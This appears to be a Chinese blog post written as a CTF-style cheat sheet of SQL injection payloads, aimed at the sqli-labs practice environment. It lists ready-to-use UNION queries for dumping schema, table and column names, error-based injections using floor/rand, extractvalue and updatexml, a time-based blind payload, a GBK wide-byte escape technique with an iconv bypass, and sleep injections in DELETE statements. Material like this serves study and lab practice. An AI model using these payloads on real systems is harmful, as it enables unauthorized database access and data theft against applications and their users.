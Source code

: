 ```yaml
---
title: 常见sql注入语句
date: 2018-09-30 17:21:02
categories: PT
tags: [sql, ctf]
---
```

常见的SQL注入
<!--more-->
# 0x00 爆数据库下的库,表,列

**爆库**  

`http://localhost/sqllib/sqli-labs-master/sqli-labs-master/Less-1/?id=-1' union select group_concat(schema_name),3 from information_schema.schemata -- +`   

**爆表**  

`http://localhost/sqllib/sqli-labs-master/sqli-labs-master/Less-1/?id=-1' union select 1,group_concat(table_name) from information_schema.tables where table_schema = 'security' -- +`  

**爆字段**  

`http://localhost/sqllib/sqli-labs-master/sqli-labs-master/Less-1/?id=-1' union select 1,GROUP_CONCAT(column_name) from information_schema.columns where table_name='users' -- a`  

# 0x01 常见报错注入

- rand不能和order by一起用

`select * from users where id=1 and (select 1 from (select count(*) from information_schema.tables group by concat(user(),floor(rand(0)*2)))a);`

`select * from users where id=1 and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);`


- extractvalue（）

`select * from users where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));  ` 

`select * from users where id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1));`

- 基于时间的SQL盲注

`slect ..... union select If(ascii(substr(database(),1,1))>115,0,sleep(5))`

# 0x02 宽字节注入

**判断方式：** 
1. 尝试
2. 页面编码是gbk

使用者输入数据后，会通过php的默认编码生成sql语句发送给服务器。  
宽字节注入指的是mysql数据库在使用宽字节（GBK）编码时，会认为两个字符是一个汉字（前一个ascii码要大于128（比如%df），才到汉字的范围），而且当我们输入单引号时，mysql会调用转义函数，将单引号变为\’，其中\的十六进制是%5c,mysql的GBK编码，会认为%df%5c是一个宽字节，也就是’運’，从而使单引号闭合（逃逸），进行注入攻击.  
宽字节注入发生的位置就是PHP发送请求到MYSQL时字符集使用character_set_client设置值进行了一次编码，然后服务器会根据character_set_connection把请求进行转码，从character_set_client转成character_set_connection，然后更新到数据库的时候，再转化成字段所对应的编码  
>%df%27--->(addslashes)--->%df%5c%27--->(GBK)---->運’ 
>
>用户输入---> 过滤函数--> 代码层的$sql-->mysql处理请求-->mysql中的sql  

为了避免宽字节注入，很多人使用iconv函数（能够完成各种字符集间的转换$text=iconv("UTF-8","GBK",$text);），其实这样做是有很大风险的，仍旧可以造成宽字节注入。  
可以使用逆向思维，先找一个gbk的汉字錦,錦的utf-8编码是0xe98ca6，它的gbk编码是0xe55c,是不是已经看出来了，当传入的值是錦'，'通过addslashes转义为'(%5c%27),錦通过icov转换为%e5%5c，终止变为了%e5%5c%5c%27,不难看出%5c%5c正好把反斜杠转义，使单引号逃逸，造成注入。  

iconv("utf-8","gbk","錦");编码转换  
echo bin2hex($t);输出字节码

# 0x03 delete
在一次delete语句的注入中，发现一个好玩的东西。  
delete语句拼接一些语句时.只有当表中存在数据时，如下语句才会执行：
```mysql
DELETE from dami_flash WHERE (id=3) or sleep(5);
DELETE from dami_flash WHERE (id=3) or (select sleep(5));
```


<br><br><br><br><br>

